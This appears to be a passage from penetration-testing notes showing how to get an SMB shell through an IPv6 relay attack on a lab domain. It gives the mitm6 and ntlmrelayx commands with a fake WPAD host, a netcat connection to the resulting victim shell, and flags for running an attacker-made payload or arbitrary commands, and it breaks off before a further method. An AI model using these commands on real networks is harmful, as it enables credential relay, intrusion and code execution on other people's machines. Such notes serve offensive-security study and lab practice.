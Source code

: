 ## Get an SMB Shell

```text
python mitm6.py -d megacorp.local -i vboxnet0
```

we can add -i to get an smb shell if posible

```text
ntlmrelayx.py -6 -t smb://192.168.56.115 -wh fakewpad.megacorp.local -l lootme  -i
```

![](../../../.gitbook/assets/image%20%28217%29.png)

we can connect to the shell with netcat:

```text
nc 127.0.0.1 11000
```

![](../../../.gitbook/assets/image%20%28222%29.png)

now we are in the victims share directory

```text
-e [payload.exe]  → to run a payload generated on attackers machine

-c [command] → execute the specified command
```

#### we can use this instead of ntlmrelayx and get a system level interactive shell:
